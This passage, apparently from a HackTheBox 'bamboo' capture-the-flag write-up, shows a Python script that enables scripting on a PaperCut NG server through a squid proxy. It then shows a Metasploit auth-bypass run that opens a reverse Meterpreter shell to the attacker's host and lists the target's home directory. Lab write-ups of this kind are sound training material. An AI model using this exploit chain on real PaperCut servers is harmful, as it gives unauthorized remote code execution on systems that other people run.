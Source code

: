 ```
        '$TextField': setting,
        'doQuickFind': 'Go'
    }
    r = session.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)

    data = {
        'service': 'direct/1/ConfigEditor/$Form',
        'sp': 'S1',
        'Form1': '$TextField$0,$Submit,$Submit$0',
        '$TextField$0': enabled,
        '$Submit': 'Update'
    }
    r = session.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--proxy', help='squid proxy address example: http://10.10.10.10:3128', required=True)
    args = parser.parse_args()

    sess = get_session_id(args.proxy)
    if sess:
        set_setting(sess, setting='print-and-device.script.enabled', enabled='Y')
```

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ python update_config.py -p http://10.129.54.74:3128
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
```

after that you can run the metasploit module again and get a shell  
you can also read **user.txt** in `/home/papercut`

```
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[*] Started reverse TCP handler on 10.10.15.52:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://10.10.15.52:8080/H3W8n3qsVn
[*] Server started.
[*] Sending stage (58073 bytes) to 10.129.54.74
[*] Meterpreter session 1 opened (10.10.15.52:4444 -> 10.129.54.74:59512) at 2025-10-21 23:07:07 +0330
[*] Server stopped.

meterpreter > ls /home/papercut
Listing: /home/papercut
=======================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
000667/rw-rw-rwx  0       fif   2025-10-21 22:02:56 +0330  .bash_history
100667/rw-rw-rwx  220     fil   2023-05-26 16:35:32 +0330  .bash_logout
100667/rw-rw-rwx  74      fil   2023-05-26 16:39:52 +0330  .bash_profile
100667/rw-rw-rwx  3771    fil   2023-05-26 16:35:32 +0330  .bashrc
100667/rw-rw-rwx  102     fil   2022-09-29 10:45:05 +0330  .install-config
040777/rwxrwxrwx  4096    dir   2023-05-26 16:36:33 +0330  .local
100667/rw-rw-rwx  881     fil   2023-05-26 16:39:52 +0330  .profile
100776/rwxrwxrw-  50569   fil   2022-09-29 10:45:05 +0330  LICENCE.TXT
100776/rwxrwxrw-  1537    fil   2022-09-29 10:45:05 +0330  README-LINUX.TXT
100776/rwxrwxrw-  212715  fil   2022-09-29 10:45:05 +0330  THIRDPARTYLICENSEREADME.TXT
040776/rwxrwxrw-  4096    dir   2023-05-26 17:52:55 +0330  client
```
